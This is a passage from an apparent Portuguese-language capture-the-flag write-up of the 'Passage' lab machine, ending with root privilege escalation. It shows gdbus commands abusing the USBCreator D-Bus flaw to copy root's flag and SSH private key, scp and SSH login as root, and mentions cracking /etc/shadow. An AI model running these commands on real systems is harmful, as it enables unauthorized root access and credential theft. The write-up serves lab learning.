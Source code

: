 Finalmente, como o usuário **nadav**, fiz uma última tentativa da exploração da vulnerabilidade do USBCreator. Desta vez tivemos sucesso, uma vez que este usuário possui diversos privilégios nesta máquina.

O exploit do USBCreator nos permite copiar um arquivo usando os privilégios de root. Se quiser apenas copiar o arquivo `root.txt` para o diretório `/tmp`, a linha de comando abaixo atende a esta necessidade.

```bash
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/somefilename true
```

Porém, se quiser um shell interativo com privilégios de root, existem algumas possibilidades que devemos tentar:

- Obter uma cópia do `/etc/shadow`, fazer o unshadow e crackear a senha utilizando John ou Hashcat, o que não funcionou com o dicionário que utilizei;
- Verificar a existência de um arquivo `id_rsa` no perfil do root, assim como sua configuração como uma chave autorizada no arquivo **authorized_keys**, que foi onde obtivemos sucesso e pudemos ver a flag desta conta.

```bash
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/somefilename true

## Attacker machine
$ scp -i id_rsa nadav@10.10.10.206:/tmp/somefilename .
$ chmod +600 id_rsa
$ ssh -i root@10.10.10.206
root@passage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@passage:~# cat /root/root.txt
<redacted>
```

Espero que tenham gostado.

Até o próximo post! :smiley:
